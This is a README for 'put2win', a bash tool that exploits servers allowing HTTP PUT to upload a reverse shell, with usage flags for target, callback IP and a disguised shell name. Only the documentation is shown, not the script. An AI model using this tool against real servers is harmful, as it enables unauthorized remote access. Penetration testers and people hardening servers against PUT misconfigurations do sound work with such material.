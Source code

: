 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automate PUT HTTP method exploitation to get shell.

[![asciicast](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb.svg)](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb)


### Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

### Usage
```
Script to automate PUT HTTP method exploitation to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - bash put2win.sh -t 192.168.1.80 -l 192.168.1.10 -s readme.php
 - bash put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
### Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
